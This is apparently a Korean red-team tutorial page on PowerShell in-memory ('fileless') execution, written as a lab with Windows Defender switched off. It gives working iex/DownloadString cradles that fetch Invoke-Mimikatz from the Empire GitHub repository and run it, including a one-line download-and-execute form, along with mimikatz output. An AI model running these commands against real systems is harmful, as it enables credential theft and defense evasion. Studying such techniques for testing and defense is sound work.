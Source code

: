 # 인메모리 실행

파워쉘 공격의 가장 큰 장점 중 하나는 바로 메모리상에서 파워쉘 코드를 실행시킬 수 있다는 것이다. 인메모리 실행 (In-Memory Execution)이라고도 불리고, 2010년대 중반에는 "Fileless Attack" 공격으로도 불렸었다. 말 그대로 디스크에 파일이 없이 공격이 가능하다는 것이다. 이것이 가능한 이유는 파워쉘이 인터프리티드 언어 (Interpreted Language) 이기 때문이다. 파워쉘 코드를 `powershell.exe` 프로세스에서 실행할 경우 백엔드의 인터프리터가 코드 한 줄 한 줄을 메모리상에서 실행 시킨다.&#x20;

인메모리 실행을 할 경우 디스크에 악성 파일이 남지 않고, 정적 분석이 아닌 메모리분석을 해야하기 때문에 방어 우회를 하기가 조금 더 편하다 - 편했었다. 2022년도 기준에는 파워쉘 로깅 및 보안이 워낙 더 탄탄하기 때문에 오히려 인메모리 파워쉘 실행이 더 어렵기도 하다.&#x20;

### 실습&#x20;

실습에서는 윈도우 디펜더를 끈 상태에서 진행한다. 추후 윈도우 디펜더 및 AMSI를 우회하는 방법에 대해서는 [AMSI 우회 페이지](../../defense-evasion/amsi-우회.md)에 따로 서술한다.&#x20;

인메모리 실행은 다른 호스트에 있는 파워쉘을 다운로드 받은 뒤 로드 (Load) 시키는 형태로 이뤄진다.&#x20;

```powershell
# 원격 파워쉘 다운 후 불러오기 
iex(new-object net.webclient).downloadstring("<url>");

# 예시 - BCSecurity의 empire 프로젝트에서 Invoke-Mimikatz.ps1 다운 + 불러오기 
 iex(New-Object net.webclient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

`(new-object net.webclient).downloadstring("<url>")` 를 통해 원격의 파워쉘 코드를 다운 받은 뒤, `iex` 로 다운 받은 파워쉘 코드를 실행 (Invoke-Expression) 하는 것이다. 이렇게 되면 현 파워쉘 프로세스에 원격 파워쉘 코드를 불러온 상태가 된다. 이 상태에서 불러온 파워쉘을 실행시키면 실행 결과가 나온다.&#x20;

```powershell
PS C:\> Invoke-Mimikatz -Command "coffee"
Hostname: DESKTOP-71L41J7 / S-1-5-21-462821047-2831688090-1286352653

  .#####.   mimikatz 2.2.0 (x64) #19041 Nov 20 2021 08:28:06
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'
```

이를 한번에 묶어 다운로드 + 불러오기 + 실행을 한꺼번에 할 수도 있다.&#x20;

```powershell
iex(New-Object net.webclient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command "coffee"
```

